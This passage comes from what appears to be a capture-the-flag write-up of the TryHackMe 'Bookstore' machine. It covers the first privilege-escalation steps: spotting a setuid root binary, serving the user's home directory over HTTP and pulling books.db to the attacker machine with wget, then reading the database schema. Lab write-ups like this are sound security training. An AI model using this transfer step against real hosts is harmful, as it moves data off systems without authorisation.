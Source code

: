 ## Privilege Escalation

### sid to root

**In user `sid` home directory, we have something interesting:**
```
sid@bookstore:~$ ls -lah
[...]
-rw-rw-r-- 1 sid  sid   16K Oct 19  2020 books.db
[...]
-rwsrwsr-x 1 root sid  8.3K Oct 20  2020 try-harder
[...]
```

**Let's look at the `books.db` first!**
```
sid@bookstore:~$ file books.db 
books.db: SQLite 3.x database, last written using SQLite version 3033000
```

**We can open it via `sqlite3`!**
```
sid@bookstore:~$ sqlite3 books.db 

Command 'sqlite3' not found, but can be installed with:

apt install sqlite3
Please ask your administrator.
```

**Nevermind, let's transfer this SQLite database file to our attacker machine!**
```
sid@bookstore:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...

┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# wget http://$RHOSTS:8000/books.db
```

**Enumerate the `books.db` database:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# sqlite3 books.db 
SQLite version 3.39.4 2022-09-29 15:55:41
Enter ".help" for usage hints.
sqlite> 
```

```
sqlite> .tables
books
```

- Found table: `books`

```
sqlite> PRAGMA table_info(books);
0|id||0||1
1|published|INT|0||0
2|author|VARCHAR|0||0
3|title|VARCHAR|0||0
4|first_sentence|VARCHAR|0||0
```
